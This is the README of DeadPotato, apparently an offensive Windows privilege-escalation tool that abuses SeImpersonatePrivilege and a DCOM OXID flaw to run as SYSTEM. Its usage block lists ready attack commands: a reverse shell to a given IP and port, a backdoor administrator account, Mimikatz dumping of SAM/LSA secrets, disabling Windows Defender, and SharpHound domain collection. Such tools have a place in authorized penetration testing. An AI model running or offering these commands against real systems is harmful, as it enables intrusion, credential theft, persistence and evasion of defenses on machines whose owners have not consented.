 ![image](https://github.com/user-attachments/assets/460525cb-1871-4608-a6e5-1c5da07f63aa)

<p align="center">
  <a href="#"><img alt="forksBDG" src="https://img.shields.io/github/forks/lypd0/DeadPotato?style=for-the-badge"></a>
  <a href="#"><img alt="starsBDG" src="https://img.shields.io/github/stars/lypd0/DeadPotato?style=for-the-badge"></a>
  <a href="#"><img alt="licenseBDG" src="https://img.shields.io/github/license/lypd0/DeadPotato?style=for-the-badge"></a>
  <a href="#"><img alt="languageBDG" src="https://img.shields.io/badge/LANGUAGE-CSHARP-green?style=for-the-badge"></a>

<h3 align="center">🚨 Hashdump & SharpHound Modules Now Available! 🚨</h3>
<h4 align="center"><i>❗ Usage of this program under an unauthorized context is strictly forbidden. The author(s) of DeadPotato do not take any responsibility for any harm caused to systems. Use with caution. ❗</i></h4>

```
C:\Users\lypd0> GodPotato.exe
  
    ⠀⢀⣠⣤⣤⣄⡀⠀    _           _
    ⣴⣿⣿⣿⣿⣿⣿⣦   | \ _  _  _||_) _ _|_ _ _|_ _
    ⣿⣿⣿⣿⣿⣿⣿⣿   |_/(/_(_|(_||  (_) |_(_| |_(_)
    ⣇⠈⠉⡿⢿⠉⠁⢸   Open Source @ github.com/lypd0
    ⠙⠛⢻⣷⣾⡟⠛⠋         -= Version: 1.2 =-
        ⠈⠁⠀⠀⠀

_,.-'~'-.,__,.-'~'-.,__,.-'~'-.,__,.-'~'-.,__,.-'~'-.,_

 (*) Example Usage(s):

   -={ deadpotato.exe -MODULE [ARGUMENTS] }=-

   -> deadpotato.exe -cmd "whoami"
   -> deadpotato.exe -rev 192.168.10.30:9001
   -> deadpotato.exe -exe paylod.exe
   -> deadpotato.exe -newadmin lypd0:DeadPotatoRocks1
   -> deadpotato.exe -shell
   -> deadpotato.exe -mimi sam
   -> deadpotato.exe -defender off
   -> deadpotato.exe -sharphound

 (*) Available Modules:

   - cmd: Execute a command as NT AUTHORITY\SYSTEM.
   - rev: Attempts to establish a reverse shell connection to the provided host
   - exe: Execute a program with NT AUTHORITY\SYSTEM privileges (Does not support interactivity).
   - newadmin: Create a new administrator user on the local system.
   - shell: Manages to achieve a semi-interactive shell (NOTE: Very bad OpSec!)
   - mimi: Attempts to dump SAM/LSA/SECRETS with Mimikatz. (NOTE: This will write mimikatz to disk!)
   - defender: Either enables or disables Windows Defender's real-time protection.
   - sharphound: Attempts to collect domain data for BloodHound.
```

## ❔ Quick Start - How To Use
The `SeImpersonatePrivilege` right is enabled in your context? With **DeadPotato**, it is possible to achieve maximum privileges on the local system.<br><br>
The tool will attempt to start an elevated process running in the context of the `NT AUTHORITY\SYSTEM` user by abusing the DCOM's RPCSS flaw in handling OXIDs, allowing unrestricted access over the machine for critical operations to be freely performed.<br><br>
⚠️ In the following case, the `-cmd` module is used. Many modules are available for use, such as the `-rev IP:PORT` for spawning an elevated reverse shell, `-newadmin usr:pass` for creating a new local Administrator user for persistence, or `-mimi sam` for dumping SAM hashes.

![cmd_GQJhLcT9IH](https://github.com/user-attachments/assets/b5f71f4a-f8bc-4099-81c5-54bcece7abb6)

#### Verify SeImpersonatePrivilege rights
In order to use DeadPotato, the SeImpersonatePrivilege right must be enabled in the current context. In order to verify this, the `whoami /priv` command can be executed.
If there privilege is disabled, exploitation is not possible in the current context.
```
C:\Users\lypd0> whoami /priv

<...SNIP...>
SeImpersonatePrivilege    Impersonate a client after authentication     Enabled
<...SNIP...>
```


## 🐚 Getting an Elevated Reverse Shell
![cmd_XQASCL7Lz6](https://github.com/user-attachments/assets/201fa7cb-4253-47e4-8beb-1ae781fc481c)

### 🏅 Credits
This Project "DeadPotato" is a tool built on the source code of the masterpiece "GodPotato" by BeichenDream.
If you like this project, make sure to also go show support to [the original project](https://github.com/BeichenDream/GodPotato)

BeichenDream,
Benjamin DELPY `gentilkiwi`,
BloodHound Developers.

### License
This project is licensed under the [MIT License](https://choosealicense.com/licenses/apache-2.0/). Please review the LICENSE file for more details.


[![Star History Chart](https://api.star-history.com/svg?repos=lypd0/DeadPotato&type=Date)](https://star-history.com/#lypd0/DeadPotato&Date)

